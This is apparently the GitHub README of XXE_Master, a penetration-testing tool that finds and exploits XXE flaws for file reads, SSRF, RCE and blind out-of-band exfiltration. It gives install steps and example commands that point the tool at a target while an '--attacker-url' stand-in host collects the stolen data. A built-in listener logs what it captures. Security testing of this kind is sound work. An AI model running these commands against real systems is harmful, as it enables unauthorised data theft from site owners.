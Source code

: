 # XXE_Master

![xmaster-logo](logo.png)

## 📜 Description

XXE_Master is a powerful tool designed to detect, and exploit a wide range of XML External Entities(XXE), including data exfiltration, file inclusion, SSRF, RCE, and XSS. it supports variety of attack vectors through its rich set of payloads designed  for both direct and blind XXE exploitation.It supports all operating systems (Linux Windows, and MacOS).

## Table of Contents
- [Features](#features)
- [Requirements](#requirements)
- [Installation](#installation)
- [Usage](#usage)
- [Examples](#examples)
- [Logging](#logging)
- [Contributing](#contributing)
- [License](#license)

## Features
- **Detection:** Identify XXE vulnerabilities in web applications with precisions.
- **Exploitation:** Automatically exploit detected vulnerabilities to demonstrate impact.
- **Out-of-Band (OOB) Listener:** Capture exfiltrated data through a built-in OOB listener for blind XXE attacks.
- **cross platform:** Supports Linux, Windows, and macOS.

## Requirements
- Python 3.x
- Required Python packages (installed via `setup.py` or `requirements.txt`)

## Installation

### Installation Steps
1. Clone the repository: 
shell
```
git clone https://github.com/uwimanaMuhiziElie/xxe_master.git
```
2. Navigate to the project directory:
shell
```
cd xxe_master
 ```
3. Install XXE_Master: 
shell
```
python setup.py install
```

## Usage
- For usage instructions, run 
shell
```
python xmaster.py --help
```

## Examples
- **Scan a target for XXE vulnerabilities**:
  - Demonstration: This command will scan the specified target URL for XXE vulnerabilities and use the specified attacker URL for data exfiltration. 
  shell
  ```
  python xmaster.py http://www.targetsite.com --attacker-url http://your-attacker-url.com
  ```

- **Scan with custom delay and OOB listener settings**:
  - Demonstration: This command will scan the target URL with a custom delay of 5 seconds between outputs and will listen on port 8000 for out-of-band data. the tool starts an attacker server in the background to handle out-of-band data exfiltration automatically. The server stops when the scan completes.
  shell
  ```
  python xmaster.py http://www.targetsite.com --attacker-url http://your-attacker-url.com --delay 5
  ```

## Examples 
1.Scan a Target for XXE Vulnerabilities
shell
```
python xmaster.py http://www.exampletest.com --attacker-url http://localhost:8000/exfiltrate
```
2.Scan with Custom Delay
shell
```
python xmaster.py http://www.exampletest.com --attacker-url http://localhost:8000/exfiltrate --delay 5
```

## Logging
The tool logs all detected vulnerabilities and exfiltrated data in the logs/attacker_server.log file. This includes the OOB data captured during blind XXE attacks.

## Troubleshooting
- If you encounter any issues, please [open an issue](https://github.com/uwimanaMuhizieElie/xxe_master/issues) on GitHub.

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Author

### Elie Uwimana 😎
- [LinkedIn](www.linkedin.com/in/elie-uwimana)




            
